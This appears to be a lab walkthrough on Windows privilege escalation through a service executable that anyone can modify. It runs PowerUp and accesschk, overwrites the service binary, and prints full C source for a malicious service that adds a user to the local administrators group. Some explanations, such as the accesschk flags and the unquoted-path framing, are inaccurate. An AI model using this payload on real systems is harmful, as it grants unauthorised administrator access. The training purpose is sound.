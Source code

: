 # 📁 Executable Files

In the context of Windows Privilege Escalation, executable files play a crucial role. Specifically, the focus is often on unquoted service paths, which can lead to privilege escalation vulnerabilities.

An unquoted service path vulnerability occurs when the path to a service executable lacks quotes and contains spaces. For example, `C:\Program Files\SomeExecutable.exe`. If the service path is unquoted and the user has permissions to manipulate objects in the specified path, it may be exploited for privilege escalation

<figure><img src="../../../../.gitbook/assets/image (408).png" alt=""><figcaption></figcaption></figure>

### Overview <a href="#lecture_heading" id="lecture_heading"></a>

So first go to your rdesktop window and go into the powerup file:

<figure><img src="../../../../.gitbook/assets/image (409).png" alt=""><figcaption><p>Don't forget the "powershell -ep bypass" command</p></figcaption></figure>

Run a&#x20;

```
. .\PowerUp.ps1
#and a 
Invoke-AllChecks
```

Next we went and tried to run the command `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"` and it reveals a potential security risk related to unrestricted file permissions. Specifically, it highlights that the "Everyone" user group possesses "FILE\_ALL\_ACCESS" permissions on the `filepermservice.exe` executable.

1. **Accesschk64:** Accesschk is a Windows utility used for checking effective permissions on files, directories, registry keys, etc. The command `accesschk64.exe -wvu "C:\Program Files\File Permissions Service"` is checking the permissions of the specified file.
2. **-wvu Option:**
   * `-w`: Checks the effective permissions.
   * `-v`: Verbose mode, provides detailed output.
   * `-u`: Shows ownership information.

It was first seen in the powerUp output:

<figure><img src="../../../../.gitbook/assets/image (410).png" alt=""><figcaption></figcaption></figure>

and then confirmed manually:

<figure><img src="../../../../.gitbook/assets/image (411).png" alt=""><figcaption></figcaption></figure>

Observe the output for the `filepermservice.exe` file. If the "Everyone" group has "FILE\_ALL\_ACCESS" permissions, it indicates a potential security vulnerability.

### Escalation <a href="#lecture_heading" id="lecture_heading"></a>

download the x.exe file in the previous room on your windows machine again, but this time&#x20;

<figure><img src="../../../../.gitbook/assets/image (423).png" alt=""><figcaption></figcaption></figure>

save it at this location and overwrite the already existing filepermservice file

for the moment, we don't have any unusual people in our administrators local group:

<figure><img src="../../../../.gitbook/assets/image (424).png" alt=""><figcaption></figcaption></figure>

except if we do a&#x20;

```
sc start filepermsvc
```

<figure><img src="../../../../.gitbook/assets/image (425).png" alt=""><figcaption></figcaption></figure>

that's more than an easy win

so basically with the powerup tool we found that we had an executable file called filepermsvc that was modifiable by anyone, so we modified it with a malicious C file that made us escalate to administrators local group

if needed, here is the malicious C file

```c
#include <windows.h>
#include <stdio.h>

#define SLEEP_TIME 5000

SERVICE_STATUS ServiceStatus; 
SERVICE_STATUS_HANDLE hStatus; 
 
void ServiceMain(int argc, char** argv); 
void ControlHandler(DWORD request); 

//add the payload here
int Run() 
{ 
    system("cmd.exe /k net localgroup administrators user /add");
    return 0; 
} 

int main() 
{ 
    SERVICE_TABLE_ENTRY ServiceTable[2];
    ServiceTable[0].lpServiceName = "MyService";
    ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;

    ServiceTable[1].lpServiceName = NULL;
    ServiceTable[1].lpServiceProc = NULL;
 
    StartServiceCtrlDispatcher(ServiceTable);  
    return 0;
}

void ServiceMain(int argc, char** argv) 
{ 
    ServiceStatus.dwServiceType        = SERVICE_WIN32; 
    ServiceStatus.dwCurrentState       = SERVICE_START_PENDING; 
    ServiceStatus.dwControlsAccepted   = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
    ServiceStatus.dwWin32ExitCode      = 0; 
    ServiceStatus.dwServiceSpecificExitCode = 0; 
    ServiceStatus.dwCheckPoint         = 0; 
    ServiceStatus.dwWaitHint           = 0; 
 
    hStatus = RegisterServiceCtrlHandler("MyService", (LPHANDLER_FUNCTION)ControlHandler); 
    Run(); 
    
    ServiceStatus.dwCurrentState = SERVICE_RUNNING; 
    SetServiceStatus (hStatus, &ServiceStatus);
 
    while (ServiceStatus.dwCurrentState == SERVICE_RUNNING)
    {
		Sleep(SLEEP_TIME);
    }
    return; 
}

void ControlHandler(DWORD request) 
{ 
    switch(request) 
    { 
        case SERVICE_CONTROL_STOP: 
			ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
            return; 
 
        case SERVICE_CONTROL_SHUTDOWN: 
            ServiceStatus.dwWin32ExitCode = 0; 
            ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
            SetServiceStatus (hStatus, &ServiceStatus);
            return; 
        
        default:
            break;
    } 
    SetServiceStatus (hStatus,  &ServiceStatus);
    return; 
} 

```
